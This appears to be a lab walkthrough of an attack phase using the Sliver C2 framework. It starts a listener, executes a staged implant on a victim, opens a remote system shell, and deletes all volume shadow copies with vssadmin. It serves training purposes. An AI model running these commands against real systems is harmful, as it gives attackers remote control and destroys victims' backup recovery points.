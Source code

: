  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
[Launch Sliver](./Launch20%sliver.png)
 
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
